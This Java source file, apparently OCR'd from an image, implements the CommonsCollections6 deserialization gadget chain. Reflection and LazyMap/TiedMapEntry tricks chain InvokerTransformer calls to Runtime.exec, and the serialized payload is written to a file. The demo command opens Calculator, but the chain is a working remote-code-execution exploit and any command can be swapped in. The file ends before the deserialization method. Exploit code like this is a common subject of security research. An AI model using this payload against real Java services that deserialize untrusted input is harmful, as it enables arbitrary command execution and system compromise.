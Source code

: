 ```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6 {
    public static void main(String[] args) throws Exception {
        CommonsCollections6 transformerTest = new CommonsCollections6();
        transformerTest.serialize();
        transformerTest.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建恶意的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        // 创建TiedMapEntry实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"keyTest");
        Map expMap = new HashMap<>();
        expMap.put("aaa","valueTest");
        // 通过反射获取table
        Field table = Class.forName("java.util.HashMap").getDeclaredField("table");
        table.setAccessible(true);
        Object[] array = (Object[]) table.get(expMap);
        Object node = array[0];
        Field expMapKey = node.getClass().getDeclaredField("key");
        expMapKey.setAccessible(true);
        expMapKey.set(node, tiedMapEntry);
        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);
    }

```